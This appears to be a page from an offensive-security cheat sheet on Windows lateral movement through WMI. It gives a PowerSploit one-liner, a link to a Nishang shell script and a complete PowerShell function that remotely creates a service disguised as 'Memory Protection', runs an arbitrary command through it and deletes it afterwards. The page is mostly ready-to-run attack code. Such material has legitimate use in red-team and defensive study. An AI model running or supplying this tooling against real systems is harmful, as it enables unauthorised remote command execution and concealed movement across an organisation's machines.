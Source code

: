 # Scripts

## 01 - PowerSploit

```
PS C:\> Invoke-WmiCommand -ComputerName <IP> -Payload { <commands> } | Select-Object -ExpandProperty "PayloadOutput"
```

## 02 - Nishang

TODO: Fill this info

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellWmi.ps1
```

## 03 - Invoke-WMIServiceLateralMove

```powershell
function Invoke-WMIServiceLateralMove {
	Param (
        [parameter(Mandatory)][String]$ComputerName,
    	[parameter(Mandatory)][String]$Command,
        [String]$ServiceName = "MemProtectSvc",
        [String]$ServiceDescription = "Memory Protection"
	)

    $Command = "%COMSPEC% /C " + $Command

    Write-Host ("Creating Service {0} on {1}" -f $ServiceName, $ComputerName)
    $ret = Invoke-WmiMethod -ComputerName $ComputerName -Class win32_service -name create -ArgumentList @($true,$ServiceDescription,2,$null,$null,$ServiceName,$Command,$null,16,'Automatic',$null,$null)
    # ArgumentList MUST be (DesktopInteract, DisplayName, ErrorControl, LoadOrderGroup, LoadOrderGroupDependencies, 
    # Name, PathName, ServiceDependencies, ServiceType, StartMode, StartName, StartPassword)
    if ($ret.ReturnValue -ne 0) {
        Write-Host ("Service Creation Failed! Output:")
        Write-Output $ret 
    }
    Write-Host ("Starting Service {0} on {1}" -f $ServiceName, $ComputerName)
    $service = Get-WmiObject -ComputerName $ComputerName -Class Win32_Service -Filter "Name='$ServiceName'"
    $ret = $service.startservice() # this will block because the executable is not a real service

    Write-Host ("Deleting Service {0} on {1}" -f $ServiceName, $ComputerName)
    $ret = $service.StopService()
    $ret = $service.Delete()
    if ($ret.ReturnValue -ne 0) {
        Write-Host ("Service Deletion Failed! Manual cleanup required for {0}" -f $ServiceName)
        Write-Output $ret 
    }
	Write-Host "Done"
}
```

---
## References

- [Ionize: Lateral Movement in an Environment with Attack Surface Reduction](https://www.ionize.com.au/post/lateral-movement-in-an-environment-with-attack-surface-reduction)